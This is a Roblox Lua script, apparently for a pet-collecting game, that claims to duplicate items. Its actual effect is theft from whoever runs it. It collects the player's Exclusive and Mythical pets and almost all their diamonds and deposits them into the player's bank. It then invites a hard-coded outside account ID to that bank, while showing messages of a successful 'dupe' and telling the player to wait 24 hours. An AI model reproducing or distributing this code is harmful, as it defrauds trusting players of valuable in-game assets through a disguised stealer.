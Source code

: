 local dupeKey = 3401588163
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "Eror please Remove bank members or upgrade your bank to tier 2 to Start Duping Thanks!");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! Please rejoin after 24 hours Thanks!");
else
    lib.Message.New("Dupe Eror please try again later.");
end;
